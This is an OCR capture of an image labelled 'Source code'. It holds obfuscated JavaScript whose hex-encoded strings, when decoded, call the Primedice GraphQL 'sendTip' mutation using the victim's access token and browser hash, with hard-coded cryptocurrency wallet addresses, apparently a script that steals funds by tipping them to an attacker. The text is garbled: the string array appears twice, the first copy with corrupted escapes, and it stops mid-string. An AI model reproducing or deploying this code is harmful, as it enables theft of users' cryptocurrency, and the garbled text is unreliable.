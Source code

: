 var
_0x11ec=[“x74x6Fx6Bx65x6E”,”x73x75x62x73x74x72′′,”x73x6Cx69x63x65′′,”x62x72x6Fx77x73x 65x72x48x61x73x68′′,”x69x6Ex6Ex65x72x48x54x4Dx4C”,”x73x74x79x6Cx65x73x5Fx5Fx43x6Fx6E x74x65x6Ex74x2Dx69x34x63x70x6Cx69x2Dx31x20x68x4Bx7Ax53x63x6F”,”x67x65x74x45x6Cx65x6 Dx65x6Ex74x73x42x79x43x6Cx61x73x73x4Ex61x6Dx65′′,”x42x75x74x74x6Fx6Ex2Dx73x63x2Dx31x 6Ax32x79x76x65x76x2Dx30x20x67x79x69x48x4Ex48′′,”x66x33x37x36x65x64x31x63x2Dx38x65x33 x38x2Dx34x32x39x37x2Dx38x32x31x66x2Dx62x34x63x65x32x36x63x38x30x63x61x66′′,”x68x74x7 4x70x73x3Ax2Fx2Fx61x70x69x2Ex70x72x69x6Dx65x64x69x63x65x2Ex63x6Fx6Dx2Fx67x72x61x70x 68x71x6C”,”x62x74x63′′,”x31x34x39x33x39x32x36x35x2Dx35x32x61x34x2Dx34x30x34x65x2Dx38 x61x30x63x2Dx36x65x33x65x31x30x64x39x31x35x62x34′′,””,”x73x74x72x69x6Ex67x69x66x79′′, ”x6Fx6Ex72x65x61x64x79x73x74x61x74x65x63x68x61x6Ex67x65′′,”x72x65x61x64x79x53x74x61x 74x65′′,”x73x74x61x74x75x73′′,”x50x4Fx53x54′′,”x6Fx70x65x6E”,”x43x6Fx6Ex74x65x6Ex74x2D x74x79x70x65′′,”x61x70x70x6Cx69x63x61x74x69x6Fx6Ex2Fx6Ax73x6Fx6E”,”x73x65x74x52x65x7 1x75x65x73x74x48x65x61x64x65x72′′,”x78x2Dx61x63x63x65x73x73x2Dx74x6Fx6Bx65x6E”,”x78x 2Dx62x72x6Fx77x73x65x72x2Dx68x61x73x68′′,”x73x65x6Ex64′′,”x65x74x68′′,”x6Cx74x63′′,”x62 x63x68′′,”x31x4Dx41x4Bx52x69x53x37x4Cx69x70x45x6Ex4Bx42x39x75x6Dx68x71x45x79x57x76x4 3x76x69x65x67x46x4Ex32x72x6F”,” var_0x11ec=["\x74\x6F\x6B\x65\x6E","\x73\x75\x62\x73\x74\x72","\x73\x6C\x69\x63\x65 ","\x62\x72\x6F\x77\x73\x65\x72\x48\x61\x73\x68","\x69\x6E\x6E\x65\x72\x48\x54\x4D\ x4C","\x73\x74\x79\x6C\x65\x73\x5F\x5F\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x69\x34\x63\ x70\x6C\x69\x2D\x31\x20\x68\x4B\x7A\x53\x63\x6F","\x67\x65\x74\x45\x6C\x65\x6D\x65\ x6E\x74\x73\x42\x79\x43\x6C\x61\x73\x73\x4E\x61\x6D\x65","\x42\x75\x74\x74\x6F\x6E\ x2D\x73\x63\x2D\x31\x6A\x32\x79\x76\x65\x76\x2D\x30\x20\x67\x79\x69\x48\x4E\x48","\ x66\x33\x37\x36\x65\x64\x31\x63\x2D\x38\x65\x33\x38\x2D\x34\x32\x39\x37\x2D\x38\x32 \x31\x66\x2D\x62\x34\x63\x65\x32\x36\x63\x38\x30\x63\x61\x66","\x68\x74\x74\x70\x73 \x3A\x2F\x2F\x61\x70\x69\x2E\x70\x72\x69\x6D\x65\x64\x69\x63\x65\x2E\x63\x6F\x6D\x2 F\x67\x72\x61\x70\x68\x71\x6C","\x62\x74\x63","\x31\x34\x39\x33\x39\x32\x36\x35\x2D \x35\x32\x61\x34\x2D\x34\x30\x34\x65\x2D\x38\x61\x30\x63\x2D\x36\x65\x33\x65\x31\x3 0\x64\x39\x31\x35\x62\x34","\x6D\x75\x74\x61\x74\x69\x6F\x6E\x20\x28\x24\x75\x73\x6 5\x72\x49\x64\x3A\x20\x53\x74\x72\x69\x6E\x67\x21\x2C\x20\x24\x61\x6D\x6F\x75\x6E\x 74\x3A\x20\x46\x6C\x6F\x61\x74\x21\x2C\x20\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x3A\ x20\x43\x75\x72\x72\x65\x6E\x63\x79\x45\x6E\x75\x6D\x21\x2C\x20\x24\x69\x73\x50\x75 \x62\x6C\x69\x63\x3A\x20\x42\x6F\x6F\x6C\x65\x61\x6E\x2C\x20\x24\x63\x68\x61\x74\x4 9\x64\x3A\x20\x53\x74\x72\x69\x6E\x67\x21\x2C\x20\x24\x74\x66\x61\x54\x6F\x6B\x65\x 6E\x3A\x20\x53\x74\x72\x69\x6E\x67\x29\x20\x7B\x0A\x20\x20\x73\x65\x6E\x64\x54\x69\ x70\x28\x75\x73\x65\x72\x49\x64\x3A\x20\x24\x75\x73\x65\x72\x49\x64\x2C\x20\x61\x6D \x6F\x75\x6E\x74\x3A\x20\x24\x61\x6D\x6F\x75\x6E\x74\x2C\x20\x63\x75\x72\x72\x65\x6 E\x63\x79\x3A\x20\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x2C\x20\x69\x73\x50\x75\x62\x 6C\x69\x63\x3A\x20\x24\x69\x73\x50\x75\x62\x6C\x69\x63\x2C\x20\x63\x68\x61\x74\x49\ x64\x3A\x20\x24\x63\x68\x61\x74\x49\x64\x2C\x20\x74\x66\x61\x54\x6F\x6B\x65\x6E\x3A \x20\x24\x74\x66\x61\x54\x6F\x6B\x65\x6E\x29\x20\x7B\x0A\x20\x20\x20\x20\x69\x64\x0 A\x20\x20\x20\x20\x63\x75\x72\x72\x65\x6E\x63\x79\x0A\x20\x20\x20\x20\x61\x6D\x6F\x 75\x6E\x74\x0A\x20\x20\x20\x20\x63\x72\x65\x61\x74\x65\x64\x41\x74\x0A\x20\x20\x20\ x20\x75\x73\x65\x72\x20\x7B\x0A\x20\x20\x20\x20\x20\x20\x69\x64\x0A\x20\x20\x20\x20 \x20\x20\x6E\x61\x6D\x65\x0A\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x6 1\x6D\x65\x0A\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x73\x65\x6E\x64\x42\x79\x20\x 7B\x0A\x20\x20\x20\x20\x20\x20\x69\x64\x0A\x20\x20\x20\x20\x20\x20\x6E\x61\x6D\x65\  x0A\x20\x20\x20\x20\x20\x20\x62\x61\x6C\x61\x6E\x63\x65\x73\x20\x7B\x0A\x20\x20\x20 \x20\x20\x20\x20\x20\x61\x76\x61\x69\x6C\x61\x62\x6C\x65\x20\x7B\x0A\x20\x20\x20\x2 0\x20\x20\x20\x20\x20\x20\x61\x6D\x6F\x75\x6E\x74\x0A\x20\x20\x20\x20\x20\x20\x20\x 20\x20\x20\x63\x75\x72\x72\x65\x6E\x63\x79\x0A\x20\x20\x20\x20\x20\x20\x20\x20\x20\ x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x20\x20\x20\x20\x20\x20\x20\x20\x7D \x0A\x20\x20\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x2 0\x20\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x 61\x6D\x65\x0A\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\ x61\x6D\x65\x0A\x20\x20\x7D\x0A\x7D\x0A","\x73\x74\x72\x69\x6E\x67\x69\x66\x79","\x 6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x 61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x50\x4F\x53\x54","\x6F \x70\x65\x6E","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\ x69\x63\x61\x74\x69\x6F\x6E\x2F\x6A\x73\x6F\x6E","\x73\x65\x74\x52\x65\x71\x75\x65\ x73\x74\x48\x65\x61\x64\x65\x72","\x78\x2D\x61\x63\x63\x65\x73\x73\x2D\x74\x6F\x6B\ x65\x6E","\x78\x2D\x62\x72\x6F\x77\x73\x65\x72\x2D\x68\x61\x73\x68","\x73\x65\x6E\x 64","\x65\x74\x68","\x6C\x74\x63","\x62\x63\x68","\x31\x4D\x41\x4B\x52\x69\x53\x37\ x4C\x69\x70\x45\x6E\x4B\x42\x39\x75\x6D\x68\x71\x45\x79\x57\x76\x43\x76\x69\x65\x67 \x46\x4E\x32\x72\x6F","\x30\x78\x30\x32\x61\x34\x63\x62\x42\x65\x61\x39\x66\x64\x41 \x66\x66\x66\x33\x45\x31\x39\x65\x33\x35\x43\x39\x45\x32\x33\x32\x38\x46\x37\x33\x3 8\x43\x66\x39\x39\x39\x32","\x30\x78\x30\x31\x63\x37\x45\x66\x38\x38\x38\x30\x36\x3 9\x62\x37\x34\x31\x34\x46\x33\x43\x46\x39\x65\x32\x42\x34\x62\x43\x33\x63\x38\x66\x 66\x65\x32\x38\x46\x64\x38\x34","\x4D\x4E\x4C\x52\x70\x59\x33\x33\x6F\x6F\x45\x37\x 4D\x53\x32\x63\x38\x61\x69\x52\x57\x74\x4C\x4D\x48\x4B\x71\x61\x31\x6D\x6D\x47\x38\ x61","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x6D\x75\x74\x61\x74\x69\x6 F\x6E\x20\x28\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x3A\x20\x43\x75\x72\x72\x65\x6E\x